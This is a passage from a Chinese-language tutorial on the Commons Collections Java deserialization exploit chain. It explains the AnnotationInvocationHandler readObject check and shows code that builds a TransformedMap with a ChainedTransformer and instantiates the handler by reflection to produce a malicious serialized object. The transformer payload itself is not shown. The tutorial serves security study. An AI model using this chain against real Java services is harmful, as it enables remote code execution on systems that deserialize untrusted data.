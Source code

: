```java
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
            }
        }
    }
}
```

### 反射调用

由于`AnnotationInvocationHandler`是一个内部 API 专用类，在外部无法通过类名创建出`AnnotationInvocationHandler`类实例，所以需要通过反射创建`AnnotationInvocationHandler`对象，并且`AnnotationInvocationHandler`构造方法接收的第一个参数，需要是一个有属性的注解，如`Target.class`，而且在传入`TransformedMap.decorate`方法中的第一个 Map 参数不可为空且键需要为前者（`Target.class`）的方法名，否则在`AnnotationInvocationHandler.readObject`方法中无法通过`(memberType != null)`这个 if 判断。

```java
package java.lang.annotation;

@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target(ElementType.ANNOTATION_TYPE)
public @interface Target {
    ElementType[] value();
}
```

```java
Transformer tc = new ChainedTransformer(ts);

Map m = new HashMap();

// Key的值需为Target.class中的方法名称，Value的值无所谓
m.put("value", "value");

Map tm = TransformedMap.decorate(m, null, tc);

//反射调用AnnotationInvocationHandler类的构造方法
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor cst = c.getDeclaredConstructor(Class.class, Map.class);

cst.setAccessible(true);
//获取AnnotationInvocationHandler类实例，同时传入注解和tm
Object instance = cst.newInstance(Target.class, tm);
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/d41a44a6-c353-4dab-a106-adb41868ecbf/10.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=ad6712ff8e94c013f3fe9904972b00296f58bec04a0c354635392b6aeee2b377&X-Amz-SignedHeaders=host&x-id=GetObject)
